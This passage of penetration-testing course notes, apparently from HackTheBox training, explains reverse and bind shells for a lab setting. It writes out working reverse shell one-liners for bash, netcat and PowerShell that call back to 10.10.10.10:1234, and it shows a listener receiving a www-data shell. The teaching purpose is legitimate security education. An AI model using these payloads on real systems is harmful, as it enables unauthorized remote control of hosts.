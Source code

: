 > Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

### Reverse Shell Command
- The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. 
- The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.
- Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. 
- The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:
```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
- We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:
```
secmancer@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.
- A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. 
- However, a `Reverse Shell` can be very fragile. 
- Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


### Bind Shell
- Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.
- Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. 
- We have to connect to that port with `netcat`, and we will get control through a shell on that system.
- Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.
